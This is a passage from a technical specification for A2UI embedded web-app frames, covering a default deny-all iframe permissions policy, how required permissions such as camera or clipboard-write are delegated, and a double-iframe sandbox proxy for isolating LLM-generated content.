  allow="camera 'none'; microphone 'none'; geolocation 'none'; clipboard-read 'none'; clipboard-write 'none';"
  ...
></iframe>
```

Under this default policy, native browser engine capabilities are physically disabled, preventing any unauthorized sensor prompts or ambient clipboard access.

### 5.6.2. Declarative Capability Delegation (`permissions` parameter)

When an embedded application requires legitimate access to capabilities (e.g., a barcode scanner requiring `camera`, or an interactive tool requiring `clipboard-write`):

1. **Declared Permissions:** The component definition or initialization payload declares the required permissions array (e.g., `permissions: ["camera", "clipboard-write"]`).
2. **Dynamic Allow Policy Construction:** The sandbox proxy constructs the `allow` attribute using standard delegation rules (via `buildAllowAttribute(permissions)`).
3. **Optional Capability Activation:** If permissions are granted by the host/user, the `allow` attribute delegates capability access to the iframe (e.g., `allow="camera; clipboard-write;"`), allowing standard W3C Web APIs to operate with native browser user permission prompts. If permissions are omitted, empty, or unapproved, the proxy strictly enforces the explicit deny-all baseline (`camera 'none'; microphone 'none'; geolocation 'none'; clipboard-read 'none'; clipboard-write 'none';`).

# 6. Implementation guidelines

- **Developer SDK (`@a2ui/web-bridge` - Coming Soon):** While raw `MessagePort` bindings are required for zero-dependency AI generation, human developers building `WebAppFrameUrl` targets should import
  the official `@a2ui/web-bridge` SDK (coming soon) to wrap the communication in a secure
  `MessageChannel` with Promise-based function invocations.
- **SafeContentFrame / Double-Iframe Sandboxing:** A single layer iframe does not offer good
  isolation. To ensure embedded apps are well isolated in a public setting, developers should
  leverage a secure double-iframe sandbox pattern. Instead of relying on a single iframe, developers
  can utilize the open-source **A2UI Sandbox Proxy** (e.g., the `sandbox.html` implementation
  provided in the A2UI repository) to embed applications for both `WebAppFrameSrcdoc` and
  `WebAppFrameUrl`. This proxy achieves the same strict isolation as enterprise technologies (like
  Google's SafeContentFrame) by using an outer same-origin frame that coordinates verified message
  transfers, and an inner frame that is strictly sandboxed without `allow-same-origin`,
  `allow-top-navigation`, or `allow-top-navigation-by-user-activation`. While this may incur additional
  latency, it significantly improves security for the host application, especially when the content
  is generated by an LLM-powered agent. This shifts the Firewall operation duty that the proxy-iframe
  took care of to the WebAppFrame component itself.

# References

- MCP Apps in A2UI (https://a2ui.org/guides/mcp-apps-in-a2ui/): The original A2UI iframe technical
  implementation in GitHub
- What's new in A2UI v0.9: https://a2ui.org/specification/v0.9-evolution-guide/
